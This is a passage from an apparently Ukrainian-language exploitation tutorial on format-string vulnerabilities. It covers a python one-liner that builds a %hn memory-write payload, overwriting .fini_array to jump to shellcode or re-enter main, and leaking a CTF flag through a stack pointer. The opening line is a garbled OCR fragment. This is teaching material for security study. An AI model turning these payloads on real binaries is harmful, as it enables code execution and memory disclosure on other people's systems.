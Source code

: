 HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

\`python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'\`

### **Шаблон експлойту формат-рядка**

Ви можете знайти **шаблон** для експлойтування GOT за допомогою формат-рядків тут:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

### **.fini\_array**

Фактично це структура з **функціями, які будуть викликані** перед завершенням програми. Це цікаво, якщо ви можете викликати свій **шел-код просто перейшовши за адресою**, або в тих випадках, коли вам потрібно повернутися до головної знову, щоб **експлуатувати форматний рядок вдруге**.

```bash
objdump -s -j .fini_array ./greeting

./greeting:     file format elf32-i386

Contents of section .fini_array:
8049934 a0850408

#Put your address in 0x8049934
```

Зверніть увагу, що це **не** створить **вічний цикл**, оскільки коли ви повернетеся до головної функції, канарейка помітить, що кінець стеку може бути пошкоджений, і функція більше не буде викликана знову. Таким чином, ви зможете **виконати ще 1 раз** уразливість.

### **Форматування рядків для виведення вмісту**

Форматований рядок також може бути використаний для **виведення вмісту** з пам'яті програми.\
Наприклад, у наступній ситуації є **локальна змінна в стеці, що вказує на прапорець**. Якщо ви **знайдете**, де в **пам'яті** знаходиться **вказівник** на **прапорець**, ви можете зробити **printf доступ** до цієї **адреси** та **вивести** прапорець:

Отже, прапорець знаходиться в **0xffffcf4c**

![](<../../.gitbook/assets/image (618) (2).png>)

І з витоку ви можете побачити, що **вказівник на прапорець** знаходиться в **8-му** параметрі:
